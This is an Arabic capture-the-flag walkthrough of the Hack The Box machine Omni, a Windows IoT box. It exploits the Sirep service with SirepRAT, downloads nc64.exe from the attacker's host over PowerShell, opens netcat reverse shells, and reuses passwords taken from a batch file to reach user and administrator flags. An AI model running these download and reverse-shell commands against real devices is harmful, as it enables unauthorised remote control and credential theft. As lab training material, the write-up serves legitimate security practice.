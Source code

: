 Created by fasto

My profile : https://www.hackthebox.eu/home/users/profile/


![Desktop View](/img/omn/0.jpeg)



 السلام عليكم  

> *Sammmry:*

   
iot  بعد جمع المعلومات نجد ان الماشين 

 sirepart نقوم ياستغلالها ب rce نقوم بالبحث في جوجل نجد 

من خلاله نجد كلمات سر نقوم باستعمالها للحصول على صلاحيات يوزر

administratorثم صلاحيات  


عبر windows device portal 


- 1 Recon
   - 1.1 Nmap
   - 1.2 Port
- 2 sireprat
- 3 user
   - 3.1 creeds
   - 3.2 User shell
   - 3.3 User flag
- 4 Administrator
   - 4.1 Administrator shell
   - 4.2 Root flag

## 1 Recon

### 1.1 Nmap

```
nmap نبدا بفحص البورتات باستخدام
```
![Desktop View](/img/omn/1.png)

نجد بورت 80 مفتوح

### 1.2 Port

port نقوم بتصفح

![Desktop View](/img/omn/2.png)

 windows divice portal عند فتح السيرفر نلاحظ

iot server نبحث عنها في جوجل  نجد انها عبارة عن

  rce ونجد انها مصابة ب
 

![Desktop View](/img/omn/3.png)

## 2 sireprat
                              من هناsireprat نحمل 
     https://github.com/SafeBreach-Labs/SirepRAT



Python server على جهازنا ونشعل netcat نقوم بتحميل

```
Python -m SimpleHTTPServe 80

```

serverعلى nc.exe نقوم برفع

![Desktop View](/img/omn/4.png)

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.212:8000/nc64.exe" --v
```

نقوم بالاستغلال باستخدام الامر التالي

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 1234" --v 
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

![Desktop View](/img/omn/5.png)

![Desktop View](/img/omn/6.png)

## 3 user

### 3.1 creeds
بعد عملية البحث داخل السيرفر نجد كلمات سر في المسار 

c:\Program Files\WindowsPowershell\Modules\PackageManagement

في ملف
r.bat

![Desktop View](/img/omn/7.png)

نسخدم هذه المعطيات لدخول الى 

http://10.10.10.204/8080

![Desktop View](/img/omn/8.png)

Processes>RunCommandنذهب الى



![Desktop View](/img/omn/9.png)

### 3.2 User shell

nc نقوم بالاتصال بجهازنا عبر 

```
C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 4444
```

الخاص بك ip غير 10.10.14.212 ب 

![Desktop View](/img/omn/10.png)

### 3.3 User flag

ب user flag  نسحب

```
$credential = Import-CliXml -Path U:\Users\app\user.txt
$credential.GetNetworkCredential().Password 
```

![Desktop View](/img/omn/11.png)

## 4 Administrator

نقوم مرة اخرى بالدخول باستتخدام كلمة سر 

administrator

```
C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -e cmd 10.10.14.212 5555
```
### 4.1 Administrator shell



![Desktop View](/img/omn/12.png)


### 4.2 Root flag

ب flag نسحب

```
$credential = Import-CliXml -Path U:\Users\administrator\root.txt
$credential.GetNetworkCredential().Password
```

![Desktop View](/img/omn/13.png)


